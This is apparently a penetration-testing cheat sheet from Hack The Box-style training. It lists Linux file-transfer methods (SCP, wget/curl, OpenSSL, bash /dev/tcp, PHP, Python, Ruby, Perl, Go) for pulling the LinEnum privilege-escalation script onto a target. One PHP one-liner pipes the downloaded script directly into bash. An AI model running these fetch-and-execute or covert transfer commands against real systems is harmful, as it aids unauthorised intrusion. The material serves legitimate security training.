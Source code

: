 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# Linux File Transfer Methods

## SCP

### Download file via SCP from a remote server
````bash
scp <user>@<IP-ADDRESS>:/path/to/file <output_file_on_system>
````
### Upload file via SCP to a remote system
````bash
scp <local_file_on_system> <user>@<IP-ADDRESS>:/path/for/uploaded_file
````

## Wget / cURL

Wget and cURL are installed on many Linux distributions and support uploading as well as downloading files.
````bash
Ryohei@htb[/htb]$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
````
````bash
Ryohei@htb[/htb]$ curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
````

## OpenSSL

OpenSSL is frequently installed and is also often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."

### Create certificate
````bash
Ryohei@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
````
### Stand up server
````bash
Ryohei@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
````
### Download file
````bash
Ryohei@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
````
## Bash (/dev/tcp)
There may also be situations where no obvious file transfer tools are available. In this case, as long as bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/tcp device file can be used for simple file downloads.

### Connect to Target's Webserver
````bash
Ryohei@htb[/htb]$ exec 3<>/dev/tcp/10.10.10.32/80
````
### HTTP GET Request
````bash
Ryohei@htb[/htb]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
````
### Print the Response
````bash
Ryohei@htb[/htb]$ cat <&3
````

## PHP
PHP is also very prevalent and provides multiple file transfer methods.

### File_get_contents()
````bash
Ryohei@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
````
### Fopen()
````bash
Ryohei@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
````
If the php-curl module has been installed, this can alternatively be used.

### Php-curl
````
Ryohei@htb[/htb]$ php -r '$rfile = "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"; $lfile = "LinEnum.sh"; $fp = fopen($lfile, "w+"); $ch = curl_init($rfile); curl_setopt($ch, CURLOPT_FILE, $fp); curl_setopt($ch, CURLOPT_TIMEOUT, 20); curl_exec($ch);'
````
It is also possible to retrieve each line as an array and pipe the output to bash.

````
Ryohei@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
````

## Python
Python is often present on Linux and can be used to download files when Wget and cURL are not available. Although Python isn’t currently installed by default in Windows, typing Python in a command prompt opens the Windows Store's official distribution with a single-click install. Python is frequently installed on developer and IT computers and is bundled by default with major business financial applications such as Bloomberg (Bloomberg Professional Services).

### Python 2
````bash
Ryohei@htb[/htb]$ python2
````
````python
import urllib
urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")
````
### Python 3
````bash
Ryohei@htb[/htb]$ python3
````
````python
import urllib.request
urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")
````

## Other Languages
Ruby, Perl, and Golang are some other popular languages that can also transfer files.

### Ruby
````bash
Ryohei@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
````
### Perl
````bash
Ryohei@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
````
### Go
````go
package main

import (
	 "os"
     "io"
     "net/http"
)

func main() {
     lfile, err := os.Create("LinEnum.sh")
     _ = err
     defer lfile.Close()

     rfile := "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"
     response, err := http.Get(rfile)
     defer response.Body.Close()

     io.Copy(lfile, response.Body)
}
````


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
